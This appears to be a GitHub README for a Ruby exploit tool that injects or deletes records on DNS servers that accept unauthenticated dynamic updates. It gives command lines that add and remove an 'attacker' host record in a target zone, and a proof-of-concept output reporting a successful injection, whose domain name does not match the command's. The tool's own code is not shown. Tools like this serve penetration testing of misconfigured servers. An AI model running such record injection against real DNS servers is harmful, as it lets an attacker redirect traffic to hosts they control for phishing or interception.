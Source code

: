 # DNS Server Dynamic Update Record Injection exploit

It's an exploit for DNS server miscunfiguration that allows ANY to update the DNS server records.

# Usage
**Exploit**
- Add

```
ruby dns_inject.rb --add --inj-domain attacker.gov.gov --inj-ip 192.168.100.10 --domain gov.gov --nameserver 172.16.16.142
```

- Delete 

```
ruby dns_inject.rb --del --inj-domain attacker.gov.gov --inj-ip 192.168.100.10 --domain gov.gov --nameserver 172.16.16.142

```

## PoC

```
ruby dns_inject.rb --add --inj-domain attacker.gov.gov --inj-ip 192.168.100.10 --domain gov.gov --nameserver 172.16.16.142


[+] The Domain 'attacker.goov.gov' => '192.168.100.10' has been injected in goov.gov

```

![](dns_inject_poc.png)

# References
- http://www.tenable.com/plugins/index.php?view=single&id=35372
- https://github.com/ChrisTruncer/PenTestScripts/blob/master/DNSInject.py


